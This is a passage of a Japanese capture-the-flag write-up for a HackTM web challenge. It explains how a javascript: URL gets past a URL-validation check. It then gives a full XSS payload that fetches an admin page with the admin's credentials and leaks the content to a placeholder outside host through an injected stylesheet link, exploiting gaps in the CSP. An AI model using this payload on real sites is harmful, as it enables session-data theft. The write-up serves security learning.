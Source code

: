 ```javascript
    }

    var toOpenUrl;
    try {
        toOpenUrl = new URL(url);
        return toOpenUrl.origin !== 'null';
    } catch (e) {}

    return false;
};
```

`isValidUrl` は引数として与えられた文字列が URL として妥当で安全っぽいものかチェックしているようです。ダメなら `iframe` で開かないようですが、もし `javascript:alert(123)` のように `javascript` スキームの URL を開かせることができればどうでしょうか。

いろいろ試しているうちに、`/#javascript:123/alert?1:alert(123);` といういい感じの URL っぽく、かつ JavaScript コードとして妥当なものを投げるとアラートを表示させることができました。

これを利用して外部にリクエストを送信できないか試してみましょう。先程の CSP をよく見ると、`default-src` と `style-src` は全く設定されていないことがわかります。つまり、`<link rel="stylesheet" href="//example.com">` のように外部の CSS を読み込む形なら外部にリクエストを発生させられます。

最終的に、`/#/page/sugestii` で `/#javascript:123/alert?1:fetch('/admin',{credentials:'same-origin'}).then(resp=>resp.text()).then(resp=>{h=document.getElementsByTagName('head').item(0);l=document.createElement('link');l.rel='stylesheet';l.href=['(URL)?',encodeURIComponent(resp)];h.appendChild(l);})` を `path` に入れてメッセージを送信すると、管理者がフラグを指定した URL に投げてくれました。

```
HackTM{6708e7a8d1ac8bfaaaeb3f6aa766b2c903ba7e82646ca5b83b5a20c940c54f9a}
```

## 感想

ユーザの検索画面で表示される `Only alphanumeric characters allowed.` というエラーメッセージから、ユーザ名に non-alphanumeric な文字が使えないという固定観念にとらわれてしまって [web] mIRC が解けなかったのを残念に思います。いや、`../../login?next=%2F%2Fexample.com` みたいなユーザ名で登録できるとか普通思わないでしょう。とにかく、私が取り組んでいた問題は [pwn] Quack the quackers を除いていずれも面白かったので満足です。